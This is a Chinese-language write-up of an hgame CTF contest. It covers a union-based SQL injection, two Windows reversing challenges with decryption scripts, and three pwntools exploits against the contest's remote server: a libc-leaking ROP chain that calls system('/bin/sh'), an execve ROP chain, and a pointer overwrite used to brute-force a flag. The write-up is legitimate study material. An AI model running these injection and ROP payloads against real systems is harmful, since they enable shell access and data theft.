



没想到节后比春节时的事情还更多，最后一两天终于赶上末班车，上了上分。基本都是看着 Hint 做的，难度比别人低了很多很多…不过反正是学习嘛 XD
{ Web }
送分的SQLi [100]
先敲个 1' or '1'='1 和 1 or 1=1 看看，确认没有单引号包裹。然后 order by 2，再来点一般套路：
1 union select 1,table_name from information_schema.tables where table_schema=database()`
# 得到表名 f111aa4g
1 union select 1,group_concat(column_name) from information_schema.columns where table_name='f111aa4g'
# 得到字段 f111aaaggg_w3
1 union select 1,f111aaaggg_w3 from f111aa4g
# 可得 hgame{Th3_e4sist_sql_injeCti0n##}
{ Re }
01 Waifu [300]
哇！图片！那先通过 BeginPaint 试试水找一下函数咯~
if ( Msg == 0x102 ) // WM_CHAR
{
last = times;
if ( times < 0x20 ) // length == 32
input_data_byte[times] = wParam; // key code
// 将键入的键逐个存入 input_data 里
times = last + 1;
if ( wParam == 0xD ) // enter
{
v11 = "Firekeeper: ";
if ( check() == 1 ) // <--- check()
v10 = "Ashen one, hearest thou my voice, still?";
else
v10 = "Ashen one, what is wrong?";
}
// ...
然后就是对本题的主角 check() 进行分析了：
// 伪代码
signed int sub_401000() {
v0, v28, v26 = 0;
is_success = 1;
if ( BYTE2(input_data_[dword 3]) ) result = 0;
// assert input_data[14] == 0, [13] == '\r'
// 所以 Flag 长度为 13
else {
// Section 1: 可得到前九位
at = 0; // 0 ~ 8
do {
v4 = at & 31; // 高 3 位置零，不带来变化
if ( at & 31 ) { // 若非首位
if ( v4 == 2 && (input_data[at] ^ 0x69) != 35 ) // at 2: 74 J
is_success = 0;
} else if ( (input_data[at] ^ 0x56) != 19 ) { // at 0: 69 E
is_success = 0;
}
if ( v4 == 4 && (input_data[at] ^ 0x64) != 83 ) { // at 4: 55 7
is_success = 0;
} else if ( v4 == 6 && (input_data[at] ^ 0x61) != 55 ) { // at 6: 86 V
is_success = 0;
}
if ( v4 == 8 && (input_data[at] ^ 0x72) != 28 ) // at 8: 110 n
is_success = 0;
if ( at & 1 ) { // 若奇数
v5 = v0++ % 4; // 0 1 2 3
v6 = 0;
if ( ((input_data[at] + inut_data[at+1]) ^ 0x76) == dword_403260[v5] )
// dw: ceh 11h c3h 92h
v6 = is_success;
is_success = v6;
}
++at;
} while ( at < 9 );
// 至此可得到 EnJ07_Vvn****
// 中间一大段待会用 Python 爆破
if ( flag1 != 25506 || flag2 != 24408 )
is_success = 0;
// assert flag1 == 25506 && flag2 == 24408
result = is_success;
}
return result;
}
中间一大段（应该是）SSE4 指令相关的计算，数据来源为 Flag 前 8 位。由于前 8 位已经确定了，直接将其视作黑盒，扔进 x32dbg 拿到黑盒的输出即可。黑盒的后边有一个 do while，用于对 Flag 后四位进行验证。这样的代码共有相似的两节，但是第一节已足够确定 Flag 后四位，第二节我就直接忽略啦。接下来，根据限制条件对后四位进行爆破即可，Python 代码如下：
for i1 in range(32, 127): // printable
for i2 in range(32, 127):
for i3 in range(32, 127):
for i4 in range(32, 127):
if not ((i1 >= i2) or (i3 >= i1) or (i1 >= i4)):
v7 = i1 * i2 * i3
v8 = v7 * i4
v9 = int(v7 / i4)
if not ((v8 % 109) or (v8 % 103) or (v9 % 41)):
v13 = 25 * ord('n') + 27 * i2
v14 = 26 * i1 + 28 * i3
if v13 + v14 + 0x3506 + 29 * i4 == 25506:
print(chr(i1), chr(i2), chr(i3), chr(i4))
# 爆破可得到 Dm5g，拼起来得到最终 Flag：hgame{EnJ07_VvnDm5g}
02 Another Waifu [350]
拖进 IDA 发现要我手动载入，查了一下壳，发现加了层 UPX，脱壳后的文件扔进 IDA。依旧通过字符串来定位函数，看到这一段：
// 伪代码
if ( a3 == 1 )
{
text = GetDlgItem(hDlg, 1001);
SendMessageA(text, 0xDu, 0x3Fu, (LPARAM)input);
duplicate = copy(input);
dest[...] = 0x84D13C7D ...; // length == 16
operation();
if ( final == dest ) // 16
MessageBoxA(0, "Nice Battle!", "Lillie: ", 0);
return 0;
}
MessageBoxA(0, "Hah... Haaah... Sorry... I'm not...very good...at running...", "Lillie: ", 0);
}
将输入的字符串一番操作后与一大串数据比对，再跟进一下子函数。子函数分为三部分，第一部分如下：
length = 7 * (strlen(input) / 7); // 七位一组
int i = 0;
do {
byte[i][0] = input[i][0] >> 1;
byte[i][1] = ((input[i][0] & 1) << 6) | (input[i][1] >> 2);
byte[i][2] = ((input[i][1] & 3) << 5) | (input[i][2] >> 3);
byte[i][3] = ((input[i][2] & 7) << 4) | (input[i][3] >> 4);
byte[i][4] = ((input[i][3] & 15) << 3) | (input[i][4] >> 5);
byte[i][5] = ((input[i][4] & 31) << 2) | (input[i][5] >> 6);
byte[i][6] = ((input[i][5] & 63) << 1) | (input[i][6] >> 7);
byte[i][7] = input[i][6] & 127;
i++;
} while ( i < length );
大致意思是将输入分组，7 byte 一组，然后拓展为 8 位的数据。在这过程中没有损失信息，待会可原样返回。然后是第二部分：
// 伪代码
// 中间一大段都不重要，略去
v19 = 0; v20 = 0; i = 0;
do {
++v19;
last = Dst2[v19];
v20 = (v20 + last) % 0x100;
Dst2[v19] = Dst2[v20];
Dst2[v20] = last;
// swap Dst2[v19] && Dst2[v20]
byte[i++] ^= Dst2[(unsigned __int8)(last + Dst2[v19])]; // <---- !important
} while ( i < 48 );
这一部分先对两处地方进行一番神奇的操作，然后将我们需要的数据给 xor 了。看准需要还原的数据，再原样异或一遍即可，待会解密脚本里照抄这一段。然后是第三部分，看不出来名堂，那就扔 x32dbg 跑一跑看看咯。由于脱壳后的程序好像有点小问题，我选择将带壳的文件拖进去，F9 跑一下就能通过字符串找到真正的指令了。先找到到第三部分对应的 do whiile 循环：

这一番操作的数据来源是 0x00B045D0，经过一番不明所以的操作后将结果放在 eax，并复制到 final 里，待会拿来比对。下个断点，再看一下 eax：

神奇！一番神奇但还是不明所以的操作之后，eax 居然就只是将 4 个 byte 颠倒一下顺序而已……至此已明晰本题套路，代码如下，可得 hgame{Ez_Encr7pt_c4n_n0t_sT0p_Ur_pr0gre5s}
#include <stdio.h>
#include <inttypes.h>
#include <string.h>
uint8_t byte[6][8] = {
0x84, 0xD1, 0x3C, 0x7D, 0x49, 0xEB, 0x7B, 0xBE,
0x85, 0x9D, 0xD3, 0x3D, 0x6E, 0x69, 0xD9, 0xF0,
0xF4, 0x08, 0xAB, 0xED, 0xB0, 0xE2, 0x23, 0xC9,
0x7C, 0x52, 0xAF, 0xF5, 0xE0, 0x60, 0x81, 0x84,
0x01, 0x05, 0xE0, 0x51, 0x92, 0x97, 0x41, 0xC5,
0x9A, 0x3B, 0x7A, 0x30, 0xC5, 0x0D, 0x7E, 0xA6 };
uint8_t input[6][7] = {0};
uint8_t Dst1[0x100] = {0};
uint8_t Dst2[0x100] = {0};
char AlolanVulpix[] = "Alolan_Vulpix";
int main() {
// 这一段直接照抄即可
unsigned int v14; // esi
int v15; // edi
signed int v16; // ecx
signed int v17; // esi
uint8_t v18; // dl
int v19; // esi
int v20; // edi
unsigned int v21; // ebx
uint8_t v22; // cl
double v23; // xmm2_8
signed int i; // esi
unsigned int result; // eax
char Dst1[260], Dst2[256]; // [esp+28h] [ebp-108h]
v14 = strlen(AlolanVulpix);
v15 = 0;
memset(Dst1, 0, 0x100u);
v16 = 0;
do {
Dst2[v16] = v16;
Dst1[v16] = AlolanVulpix[v16 % v14];
++v16;
} while ( v16 < 256 );
v17 = 0;
do {
v18 = Dst2[v17];
v15 = (v15 + Dst1[v17] + v18) % 256;
Dst2[v17++] = Dst2[v15];
Dst2[v15] = v18;
} while ( v17 < 256 );
v19 = 0;
v20 = 0;
v21 = 0;
do {
v19 = (v19 + 1) % 256;
v22 = Dst2[v19];
v20 = (v22 + v20) % 256;
Dst2[v19] = Dst2[v20];
Dst2[v20] = v22;
byte[0][v21] ^= Dst2[(uint8_t)(v22 + Dst2[v19])];
++v21;
} while ( v21 < 48 );
for (int i=0; i<6; ++i) {
input[i][0] = (byte[i][0] << 1) | ((byte[i][1] >> 6)&1);
input[i][1] = (byte[i][1] << 2) | ((byte[i][2] >> 5)&3);
input[i][2] = (byte[i][2] << 3) | ((byte[i][3] >> 4)&7);
input[i][3] = (byte[i][3] << 4) | ((byte[i][4] >> 3)&15);
input[i][4] = (byte[i][4] << 5) | ((byte[i][5] >> 2)&31);
input[i][5] = (byte[i][5] << 6) | ((byte[i][6] >> 1)&63);
input[i][6] = (byte[i][6] << 7) | (byte[i][7] & 127);
}
for (int i=0; i<42; ++i) printf("%c", input[0][i]);
}
{ Pwn }
hacker_system_ver2 [200]
与 ver1 基本一致，区别在于这是 x64（而且发现开了 ASLR），函数前边几个参数在寄存器里而不是栈上，得多一点姿势。先找个好用的 gadget:

0x400fb3 : pop rdi ; ret 就是一个不错的选择。PLT 表里有 puts 函数，直接用其打出 __libc_start_main @ GOT 时，发现拿不到 8 byte，估计是 \x00 的问题，于是我就写了个循环，一位一位地拿。然后用 IDA 打开 libc.so，拿到 "/bin/sh" 和 system() 相对于 __libc_start_main 的偏移量，即可得到 Flag：hgame{damn_it__big_hacker_you_win_the_flag_again}
from pwn import *
conn = remote('111.230.149.72', 10008)
file = ELF('./hacker_system_ver2')
puts = file.plt['puts']
got_base = file.got['__libc_start_main']
func_del = 0x400D76
pop_rdi_ret = 0x400fb3
conn.sendlineafter('> ', '3')
addr = ''
for i in range(8):
conn.sendlineafter('length:', '200')
payload = '@'*72 + p64(pop_rdi_ret) + p64(got_base+i) + p64(puts) + p64(func_del)
conn.sendlineafter('name:', payload)
conn.recvuntil('not find!!\n', drop=True)
temp = conn.recv(1)
if temp == '\n':
temp = chr(0)
addr += temp
offset = u64(addr) - 0x020740
print '[@] addr: ' + hex(u64(addr))
bin_sh_addr = 0x18CD57
system_addr = 0x045390
conn.sendlineafter('length:', '200')
payload = '@'*72 + p64(pop_rdi_ret) + p64(bin_sh_addr+offset) + p64(system_addr+offset)
conn.sendlineafter('name:', payload)
conn.interactive()
calc [250]
Hint 都给到这种程度了，就照着做了 =。= 借助 ROPgadget --ropchain 生成的 getshell 代码，自己再溢出一下即可，代码如下：
from pwn import *
conn = remote('111.230.149.72', 10009)
def send(num):
conn.sendlineafter('> ', '1')
conn.sendlineafter('a:', '0')
conn.sendlineafter('b:', str(num))
conn.sendlineafter('================\n> ', '5')
for i in range(69):
send(i) # 防止把程序里的 i 给覆盖了
print '[@] padding ok'
send(0x08056ad3) # pop edx ; ret
send(0x080ea060) # @ .data
send(0x080b8446) # pop eax ; ret
send(0x6e69622f)
send(0x080551fb) # mov dword ptr [edx], eax ; ret
send(0x08056ad3) # pop edx ; ret
send(0x080ea064) # @ .data + 4
send(0x080b8446) # pop eax ; ret
send(0x68732f2f)
send(0x080551fb) # mov dword ptr [edx], eax ; ret
send(0x08056ad3) # pop edx ; ret
send(0x080ea068) # @ .data + 8
send(0x08049603) # xor eax, eax ; ret
send(0x080551fb) # mov dword ptr [edx], eax ; ret
send(0x080481c9) # pop ebx ; ret
send(0x080ea060) # @ .data
send(0x080dee5d) # pop ecx ; ret
send(0x080ea068) # @ .data + 8
send(0x08056ad3) # pop edx ; ret
send(0x080ea068) # @ .data + 8
send(0x08049603) # xor eax, eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0807b01f) # inc eax ; ret
send(0x0806d445) # int 0x80
print '[@] payload sent'
conn.send('6\ncat flag\n')
conn.interactive()
Flag：hgame{go0o0o0o00o0o0o0oo00o0d_j0b}
zazahui_ver2 [250]
先在 IDA 里分析分析，跟 ver1 基本一致，不过这一次只能覆盖到一个指针。借由这个指针，可将输入与内存里任意数据进行比对（strcmp）。第一想法当然是最笨的爆破……发现不可能跑完，就稍微思考了一下，决定采用如下方法：首先，根据空字符来猜 Flag 长度，然后从后往前逐位爆破 Flag。这样每次只爆破一位，数量级明显可以接受。
但是脚本写出来后，有一个非常诡异的 Bug，调了好几小时还是调不出来，就跑去问 v 爷爷了。看完 v 爷爷的 exp，发现是因为 sendline() 多了一个换行符，发了 181 个字符，当然表现异常。Flag：hgame{bao_po_flag_is_intersting_LOL}，最终代码如下：
from pwn import *
conn = remote('111.230.149.72', 10010)
chrs = string.printable # string.letters + string.digits + '_'
ptr_flag = 0x804A060
for i in range(256): # 猜长度
conn.sendafter('> ', '@'*176 + p32(ptr_flag+i))
conn.sendlineafter('> ', '')
if conn.recv(2) == 'me':
break
print '[@] length = %d' % i
length = i
flag = ''
for i in range(length-1, -1, -1): # 从后到前猜 flag
conn.sendafter('> ', '@'*176 + p32(ptr_flag+i))
for j in chrs:
conn.recvuntil('> ', drop=True)
conn.sendline(j + flag)
if conn.recv(2) == 'me':
flag = j + flag
print '[@] Got you: %s' % flag
break
{ Misc }
画风不一样的她 [250]
Hint 盲水印，直接找到 BlindWaterMark 这个工具，python bwm.py decode 0.png 1.png 2.png 可得到图片：
